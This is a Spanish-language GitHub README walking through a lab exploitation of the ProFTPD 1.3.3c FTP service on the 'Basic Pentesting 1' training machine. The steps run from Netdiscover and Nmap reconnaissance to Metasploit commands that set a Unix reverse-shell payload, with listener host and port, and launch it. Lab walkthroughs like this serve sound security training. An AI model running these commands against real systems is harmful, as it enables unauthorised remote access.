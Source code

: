 # 🚀 FTP Exploitation - Basic Pentesting 1 

## 📚 Descripción
En esta documentación se detalla el proceso de explotación de la máquina BasicPentesting1, un sistema Linux con un servicio **FTP (ProFTPD 1.3.3c)** activo. A través de diferentes herramientas de pentesting, se identifican posibles vulnerabilidades y se utiliza **Metasploit** para su explotación.

El procedimiento incluye:

- **Identificación de la IP** de la máquina objetivo con **Netdiscover**.
- **Escaneo de puertos y detección de servicios** con **Nmap**.
- **Búsqueda de exploits** disponibles en **Metasploit**.
- **Configuración del exploit y payload** para obtener acceso al sistema.
- **Ejecución del exploit** y validación del acceso obtenido.

## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Máquina objetivo:** Basic Pentesting 1 (Linux)
- **Máquina atacante:** Kali Linux 
- **Herramientas necesarias:** Netdiscover, Nmap, Metasploit 

## 🎯 Uso
Identificar la IP de la máquina 
- Ejecuta Netdiscover para encontrar la dirección IP de la máquina objetivo.
- Asegúrate de que la máquina Basic Pentesting 1 y tu Kali Linux estén en la misma red Red NAT.

```
IP: 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/netdiscover.png" alt="netdiscover" style="border-radius: 10px;">
</p>

<br>

Para identificar la versión del servicio FTP y el puerto en el que está escuchando, ejecuta Nmap sobre la máquina BasicPentesting1.
```
sudo nmap -sV 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/nmap.png" alt="nmap" style="border-radius: 10px;">
</p>

<br>

Para comprobar si la versión de ProFTPD 1.3.3c es explotable, ejecuta Metasploit y realiza una búsqueda de exploits disponibles.
```
msf6 > search ProFTPD 1.3.3c
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/search.png" alt="search" style="border-radius: 10px;">
</p>

<br>

Una vez identificado un exploit para **ProFTPD 1.3.3c**, sigue estos pasos para configurarlo y buscar payloads compatibles.
Si el comando search ProFTPD 1.3.3c muestra un exploit válido.
```
msf6 > use 0
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/use.png" alt="use" style="border-radius: 10px;">
</p>

<br>

Después de seleccionar el exploit, verifica las opciones necesarias.
```
msf6 > show options
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_options.png" alt="show_options" style="border-radius: 10px;">
</p>

<br>


Para ver los payloads compatibles con el exploit.
```
msf6 > show payloads
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_payload.png" alt="show_payload" style="border-radius: 10px;">
</p>

<br>

Selecciona el payload adecuado para conseguir una conexión inversa.
```
msf6 > set payload payload/cmd/unix/reverse
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/payload.png" alt="payload" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit y el payload adecuado, configura las opciones necesarias.
Ejecuta los siguientes comandos dentro de Metasploit.
```
msf6 > set rhosts 192.168.10.11
msf6 > set rport 21
msf6 > set lhost 192.168.10.4
msf6 > set lport 2222
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/configuracion.png" alt="configuracion" style="border-radius: 10px;">
</p>

<br>


Una vez configuradas las opciones, lanza el exploit.
```
msf6 > run
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/run.png" alt="run" style="border-radius: 10px;">
</p>

<br>

A través del uso de herramientas como Netdiscover, Nmap y Metasploit, hemos logrado obtener acceso al sistema objetivo mediante una conexión inversa.
